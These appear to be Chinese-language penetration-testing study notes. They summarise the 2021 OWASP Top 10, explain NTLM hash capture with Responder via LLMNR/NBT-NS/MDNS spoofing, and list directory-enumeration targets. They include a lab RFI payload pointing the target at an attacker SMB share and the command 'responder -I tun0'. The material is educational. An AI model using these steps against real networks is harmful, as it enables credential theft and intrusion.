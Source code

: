 四年一换，今年的榜单官网是十一月的第一周出

列出2021 OWASP TOP10

**A01：失效的访问控制**  API滥用；CORS配置错误；用户权限配置不当；提权漏洞；

**A02：加密机制失效** 弱密码；不安全的算法；聚焦加密

**A03：注入**     各种注入

**A04：不安全的设计**    业务逻辑错误；留有后门；水平访问越权

**A05：安全配置错误**   各种安全策略配置错误，比如CSP，CORS；XXE被归入此类

**A06：易受攻击和过时的组件**    使用了含有已知漏洞的组件

**A07：身份识别和认证失败**          弱密码爆破；明文存储密码；keepass数据库泄露

**A08：软件和数据完整性故障**     反序列化被归入此类

**A09：安全日志与监控故障**           日志问题

**A10：服务端请求伪造**                SSRF

# Responder

Responder 是一款开源的网络协议欺骗工具，主要用于在本地网络中捕获和利用**LLMNR/NBT-NS/MDNS**协议中的漏洞来获取NTLM哈希。它内置是可以伪造如SMB等服务。

比如在Starting Point的Responder靶机中，我们利用web页面的远程文件包含漏洞访问：

```
?page=//10.10.16.31/somefile
```

responder提前在攻击机器监听网卡，伪造一个SMB服务：

```
responder -I tun0
```

就可以监听到NTLM哈希。

这里是通过RFI漏洞让靶机主动连接了，还有一种被动连接的情况就是利用LLMNR/NBT-NS/MDNS协议：

这三个协议相当于是本地网络中的DNS服务，在本地网络中通过发送多播或广播查询主机名对应的IP。攻击者的机器可以第一个响应，伪装成目标主机，让靶机连接。

这里的关键是要等靶机访问一个不存在的主机名，这样才会DNS查询失败后，在本地网络发起**LLMNR/NBT-NS/MDNS**查询，我们才能伪装成功。这种被动等待并进行欺骗的攻击模式很像ARP欺骗。

# 目录探测

目标有

1. robots.txt文件，这是一个“君子协议”，告诉爬虫哪些文件不能爬取
2. .git目录，git仓库泄露，没有删除
3. 源码文件，.bak   back.zip等等。
4. 没有显示的注册页面，登录页面，后台管理页面等等
5. **子域名**等

工具：
